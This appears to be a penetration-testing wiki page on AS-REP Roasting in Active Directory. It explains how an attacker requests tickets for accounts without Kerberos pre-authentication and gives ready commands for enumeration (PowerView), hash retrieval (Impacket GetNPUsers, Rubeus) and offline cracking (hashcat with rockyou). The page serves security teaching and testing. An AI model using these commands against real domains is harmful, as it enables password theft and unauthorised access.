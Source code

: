 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AS-REP Roasting

## Introduction

**AS-REP Roasting** targets Active Directory accounts without **Kerberos Pre-authentication**.

The attack is made in few steps:

1. **Attacker sends** [#as-req](../kerberos-authentication.md#as-req "mention") **request** in order to get TGT from the **Authentication Server** for target user without using **pre-authentication**.
2. **Authentication Server sends encrypted TGT** to the attacker.
3. **Attacker brute-forces** the TGT offline to obtain the user's password.

## Enumerate <a href="#enumerate" id="enumerate"></a>

Enumerating accounts with Kerberos pre-authentication disabled from inside the network.

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
{% endtab %}
{% endtabs %}

## Performing the attack

### Impacket

unauthenticated:

```bash
impacket-GetNPUsers <domain_name>/ -no-pass -dc-ip <dc_ip> -usersfile <userslist_file> -outputfile <hashes_file>
```

Authenticated

```bash
impacket-GetNPUsers -dc-ip <dc_ip> -request -outputfile <hashes_file> <domain>/<username>
```

### Rubeus <a href="#crack" id="crack"></a>

```powershell
.\Rubeus.exe asreproast /nowrap
```

## Crack <a href="#crack" id="crack"></a>

```bash
hashcat -m 18200 <hashes> /usr/share/wordlists/rockyou.txt
```
